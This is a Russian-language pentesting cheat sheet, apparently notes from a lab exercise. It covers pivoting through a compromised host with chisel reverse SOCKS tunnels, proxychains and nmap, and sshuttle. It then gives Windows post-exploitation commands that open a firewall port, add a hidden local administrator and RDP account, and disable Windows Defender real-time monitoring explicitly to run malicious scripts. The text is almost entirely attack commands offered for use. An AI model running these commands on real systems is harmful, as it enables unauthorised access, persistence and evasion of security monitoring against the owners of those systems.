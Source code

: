 https://github.com/jpillora/chisel?tab=readme-ov-file

Качаем на атакуемую и атакующую машину chisel

Запускаем сервер chisel на атакующей машине
```
chisel server -p listen_port --reverse
```
Запускаем клиент chisel на атакуемой машине
```
chisel client attaker_ip:attacker_port R:socks &
```
или наоборот, запускаем сервер на атакуемой машине:
```
chisel server -p 8888 --socks5
```
Запускаем клиент на атакующей машине:
```
chisel client 10.149.20.20:8888 socks
```
Команда разрешающая прямое TCP соединение, выплняется на windows:
```
netsh advfirewall firewall add rule name="osia" dir=in action=allow protocol=tcp localport=15666 - команда разрешающая прямое TCP соединение, выплняется на windows
```
Для тунелей прописываем в /etc/proxuchains4.conf в конце строчку:
```
socks5 127.0.0.1  attacker_port
```
Далее, запуская команды на атакующей машине, в начале нужно прописать proxychains:
```
sudo proxychains -q nmap -sT -sV -p- 20.34.45.6
```
Флаг -q убирает вывод самого proxychains
____________________________________________________________________
Используя только chisel столкнулся с проблемой что одного тоннеля мало, лучше использовать как основу **sshuttle**
```
sshuttle -r root@admin.holo.live --ssh-cmd "ssh -i /root/.ssh/id_rsa" 10.200.107.0/24 -x 10.200.107.33)
```
____________________________________________________________________
Как это работает:

Chisel сервером на машине атакующего начинает прослушивать порт, а на атакуемой машине клиент подключается к этому порту. Соединение на этот порт перенаправляется на локальный порт 1080 на машине атакующего, именно этот порт, потому что это настройки chisel по умолчанию

имея достаточно прав, можно создать пользователя и добавить его в нужные группы для управления по RDP
```
net user /add kalich password
net localgroup administrators kalich /add
net localgroup remotedesktopusers kalich /add
```
Отключаем динамический мониторинг команд Windows Defender для выполнения зловредных команд и скриптов
```
powershell.exe "Set-MpPreference -DisableRealtimeMonitoring 1"**
```
